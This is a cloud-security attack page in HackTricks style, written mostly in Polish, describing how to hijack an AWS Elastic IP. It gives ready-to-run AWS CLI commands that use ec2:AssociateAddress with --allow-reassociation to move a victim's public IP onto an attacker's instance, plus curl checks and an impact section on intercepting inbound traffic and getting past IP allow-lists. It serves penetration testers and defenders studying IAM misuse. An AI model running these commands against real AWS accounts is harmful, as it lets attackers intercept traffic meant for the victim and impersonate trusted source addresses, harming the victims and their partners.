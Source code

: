 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Podsumowanie

Wykorzystaj `ec2:AssociateAddress` (i opcjonalnie `ec2:DisassociateAddress`) do ponownego powiązania Elastic IP (EIP) z instancji/ENI ofiary na instancję/ENI atakującego. Przekierowuje to ruch przychodzący skierowany do EIP do atakującego i pozwala atakującemu inicjować ruch wychodzący z dozwolonego publicznego adresu IP, omijając zewnętrzne zapory partnerów.

## Wymagania wstępne
- Target EIP allocation ID in the same account/VPC.
- Instancja/ENI atakującego, którą kontrolujesz.
- Uprawnienia:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` on the EIP allocation-id and on the attacker instance/ENI
- `ec2:DisassociateAddress` (opcjonalnie). Uwaga: `--allow-reassociation` automatycznie odłączy od poprzedniego powiązania.

## Atak

Zmienne
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Przydziel lub zidentyfikuj EIP ofiary (laboratorium przydziela nowy i przypisuje go do ofiary)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Zweryfikuj, że EIP aktualnie rozwiązuje się do victim service (przykładowe sprawdzenia dla banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Ponownie przypisz EIP do atakującego (automatycznie odłączy go od ofiary)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Zweryfikuj, że EIP teraz wskazuje na usługę atakującego
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Dowody (przeniesione powiązanie):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Wpływ
- Inbound impersonation: Cały ruch do przejętego EIP jest dostarczany do attacker instance/ENI.
- Outbound impersonation: Attacker może inicjować ruch, który wygląda na pochodzący z adresu IP znajdującego się na liście dozwolonych (przydatne do ominięcia filtrów źródłowych IP partnerów/zewnętrznych).

{{#include ../../../../banners/hacktricks-training.md}}
